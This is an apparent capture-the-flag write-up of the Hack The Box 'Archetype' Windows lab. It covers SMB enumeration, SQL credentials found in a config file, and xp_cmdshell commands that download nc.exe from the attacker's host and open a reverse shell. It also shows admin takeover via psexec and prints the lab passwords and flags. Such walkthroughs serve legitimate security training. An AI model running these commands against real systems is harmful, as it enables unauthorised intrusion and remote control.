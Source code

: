 # Enumeration

```nmap -sV -O -Pn 10.10.10.27```

![grafik](https://user-images.githubusercontent.com/84674087/130489807-df449044-ed18-4a2c-a8f4-ad85af5c4946.png)

## 445/TCP SMB (Server 2008 R2)

* Let us start with the file sharing service SMB
* The tool "smbclient" is handy to use

```smbclient --no-pass -L 10.10.10.27```

![grafik](https://user-images.githubusercontent.com/84674087/130490914-42470a10-d0b5-4f9f-93bd-e07ae22ffaae.png)

* We can try to read the share "backups", which seems promising ... 

```smbclient --no-pass -L //10.10.10.27/backups```

![grafik](https://user-images.githubusercontent.com/84674087/130491116-0266f4f6-9d16-49f6-87cb-51e8c639254d.png)


> dtsConfig:
> > A configuration file written in XML, which is used to apply property values to SQL Server Integration Services (SSIS) packages.
> > SSIS packages are used to automate extraction, transformation, and loading operations to/from DBMS. It may contain sensitive information (!) and thus the access should be restricted (BlueTeam!). 


* When using the command "more" we can check the content of prod.dtsConfig
* And we discover credentials: 
  * User ID: **ARCHETYPE\sql_svc**
  * Password: **M3g4c0rp123**

![grafik](https://user-images.githubusercontent.com/84674087/130491457-7e4f196a-6e2e-4ab5-a1ae-42889ca8c8b2.png)

## 1433/TCP MS SQL

* Let us continue with MS SQL after obtaining credentials for the corresponding DB
* A useful python tool at this stage is impacket: https://github.com/SecureAuthCorp/impacket
* Description: "A collection of Python classes for working with network protocols"
* Within this package we find "mssqlclient" which we are going to use as shown below

```python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth```

![grafik](https://user-images.githubusercontent.com/84674087/130493787-a125d7ea-1a5d-43b1-b8a7-87fb0a5ee7ce.png)

* Let us try to establish a reverse shell
  1. Download nc from https://github.com/int0x33/nc.exe/blob/master/nc.exe
  2. Start HTTP Server on your machine (in same directoy where nc.exe is located)
  3. Invoke shell via mssqlclient
  4. Download nc.exe via SQL shell
  5. Start a netcat listening job in a separate terminal on your own machine
  6. Execute netcat on victim machine (beforehand: check the IPv4 of your HTB-VPN connection)

```
python -m http.server 80
xp_cmdshell powershell wget -UseBasicParsing http://10.10.16.79:80/nc.exe -o %userprofile%/nc.exe
nc -lvnp 4444
ifconfig
xp_cmdshell powershell %userprofile%/nc.exe -nv 10.10.16.79 4444 -e cmd.exe
```

![grafik](https://user-images.githubusercontent.com/84674087/130494828-27273e09-62e1-4a08-99c9-9a0850f33ce1.png)

![grafik](https://user-images.githubusercontent.com/84674087/130494843-8163545c-18bb-47cb-bbb2-3dd48fa75d09.png)

![grafik](https://user-images.githubusercontent.com/84674087/130494864-39441aa4-8c44-4d7c-b73d-581abef1c5d5.png)

![grafik](https://user-images.githubusercontent.com/84674087/130495197-6f709b62-5b08-4728-9b6d-85f0ded8fe8b.png)

![grafik](https://user-images.githubusercontent.com/84674087/130495313-155f974b-d172-4c47-97df-165b07b8b99b.png)

* After searching through the file system we can find the USER FLAG on Desktop
  * user.txt: **3e7b102e78218e935bf3f4951fec21a3**

![grafik](https://user-images.githubusercontent.com/84674087/130495456-fe714750-e688-4611-9665-1d1d226553e7.png)

### Admin Flag

* One option is the lookup of powershell command history
* This discloses the admin password: **MEGACORP_4dm1n!!**

```cd %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine```

![grafik](https://user-images.githubusercontent.com/84674087/130495725-669e3c9d-74f5-4bee-97a3-e6800b4365b5.png)

* *Option A*: Logon as Administrator via smbclient on C$
* *Option B*: Utilize psexec.py from python-impacket

```
smbclient -U administrator \\\\10.10.10.27\\C$
psexec.py Administrator@10.10.10.27
```

![grafik](https://user-images.githubusercontent.com/84674087/130496127-3b55f9bf-0180-43ba-8758-9acfb2da0946.png)

![grafik](https://user-images.githubusercontent.com/84674087/130496139-571d103e-fb4c-4b87-a5b7-7e92b17d2644.png)

![grafik](https://user-images.githubusercontent.com/84674087/130496178-3517b04d-8ac5-49c8-9af6-4cb678b92f5c.png)

--> On Desktop we find root.txt: **b91ccec3305e98240082d4474b848528**
